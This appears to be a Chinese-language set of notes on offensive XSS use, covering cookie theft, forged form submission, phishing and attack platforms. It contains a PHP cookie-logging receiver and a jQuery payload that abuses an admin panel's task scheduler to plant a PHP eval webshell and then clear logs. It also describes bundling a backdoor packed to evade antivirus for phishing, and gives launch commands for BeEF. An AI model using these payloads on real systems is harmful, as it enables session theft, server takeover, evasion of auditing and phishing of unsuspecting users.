

# WEB攻防-XSS跨站&Cookie盗取&表单劫持&网络钓鱼&溯源分析&项目平台框架

漏洞原理：接受输入数据，输出显示数据后解析执行

基础类型：反射(非持续)，存储(持续)，DOM-BASE

拓展类型：jquery，mxss，uxss，pdfxss，flashxss，上传xss等

常用标签：https://www.freebuf.com/articles/web/340080.html

攻击利用：盲打，COOKIE盗取，凭据窃取，页面劫持，网络钓鱼，权限维持等

安全修复：字符过滤，实例化编码，http_only，CSP防护，WAF拦截等

测试流程：看输出想输入在哪里，更改输入代码看执行（标签，过滤决定）

 

\#XSS跨站-攻击利用-凭据盗取

条件：无防护Cookie凭据获取

利用：XSS平台或手写接受代码

触发：

接受：

<?php

$url=$_GET['u'];

$cookie=$_GET['c'];

$fp = fopen('cookie.txt',"a");

fwrite($fp,$url."|".$cookie."\n");

fclose($fp);

?>

 

\#XSS跨站-攻击利用-数据提交

条件：熟悉后台业务功能数据包，利用JS写一个模拟提交

利用：凭据获取不到或有防护无法利用凭据进入时执行其他

function poc(){

 $.get('/service/app/tasks.php?type=task_list',{},function(data){

  var id=data.data[0].ID;

  $.post('/service/app/tasks.php?type=exec_task',{

   tid:id

  },function(res2){

​    $.post('/service/app/log.php?type=clearlog',{

​      

​    },function(res3){},"json");

​    

   

  },"json");

 },"json");

}

function save(){

 var data=new Object();

 data.task_id="";

 data.title="test";

 data.exec_cycle="1";

 data.week="1";

 data.day="3";

 data.hour="14";

 data.minute = "20";

 data.shell='echo "<?php @eval($_POST[123]);?>" >C:/xp.cn/www/wwwroot/admin/localhost_80/wwwroot/1.php';

 $.post('/service/app/tasks.php?type=save_shell',data,function(res){

  poc();

 },'json');

}

save();

 

\#XSS跨站-攻击利用-网络钓鱼

1、部署可访问的钓鱼页面并修改

2、植入XSS代码等待受害者触发

3、将后门及正常文件捆绑打包免杀

https://github.com/r00tSe7en/Fake-flash.cn

 

\#XSS跨站-攻击利用-溯源综合

1、XSS数据平台-XSSReceiver

简单配置即可使用，无需数据库，无需其他组件支持

搭建：https://github.com/epoch99/BlueLotus_XSSReceiver-master

2、浏览器控制框架-beef-xss

只需执行JS文件，即可实现对当前浏览器的控制，可配合各类手法利用

搭建：docker run --rm -p 3000:3000 janes/beef

